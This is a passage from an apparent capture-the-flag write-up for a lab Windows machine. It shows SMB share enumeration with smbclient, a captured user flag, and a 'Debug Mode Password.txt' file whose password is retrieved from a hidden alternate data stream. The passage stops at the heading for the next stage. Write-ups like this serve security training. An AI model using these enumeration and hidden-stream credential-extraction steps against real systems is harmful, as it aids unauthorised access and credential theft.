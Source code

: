 ```
NT_STATUS_ACCESS_DENIED listing \L.Frost\*
NT_STATUS_ACCESS_DENIED listing \R.Thompson\*
NT_STATUS_ACCESS_DENIED listing \TempUser\*
```

This is where we find the user flag:

```
cat smb/C.Smith/user.txt
cf71b25404be5d84fd827e05f426e987
```

### Alternate Data Stream (ADS)

**TL;DR**: password of HQK Reporting via ADS

Inside `Users` share, in the `C.Smith` folder, there are files related to
`HQK Reporting` software.

There is a promising `Debug Mode Password.txt` files but the files ize is 0 byte.

This gives us an hint an ADS (Alternate Data Stream) may be used.

As you can see below the default `$DATA` stream is 0 byte when an alternate
stream named `Password` is 15 bytes. So we can download the file via the non-default
data stream.

```
$ smbclient \\\\10.10.10.178\\Users -U 'c.smith'
Unable to initialize messaging context
Enter WORKGROUP\c.smith's password:
Try "help" to get a list of possible commands.
smb: \> cd "C.Smith\HQK Reporting"
smb: \C.Smith\HQK Reporting\> allinfo "Debug Mode Password.txt"
altname: DEBUGM~1.TXT
create_time:    ven. août  9 01:06:12 2019 CEST
access_time:    ven. août  9 01:06:12 2019 CEST
write_time:     ven. août  9 01:08:17 2019 CEST
change_time:    ven. août  9 01:08:17 2019 CEST
attributes: A (20)
stream: [::$DATA], 0 bytes
stream: [:Password:$DATA], 15 bytes
smb: \C.Smith\HQK Reporting\> get "Debug Mode Password.txt:Password:$DATA"
getting file \C.Smith\HQK Reporting\Debug Mode Password.txt:Password:$DATA of size 15 as Debug Mode Password.txt:Password:$DATA (0,1 KiloBytes/sec) (average 0,1 KiloBytes/sec)
smb: \C.Smith\HQK Reporting\>
```

In this stream the file contains the password for accessing teh debug mode:

```
$ cat smb/Debug\ Mode\ Password.txt:Password:\$DATA
WBQ201953D8w
```

### Network service exploitation: finding Administrator
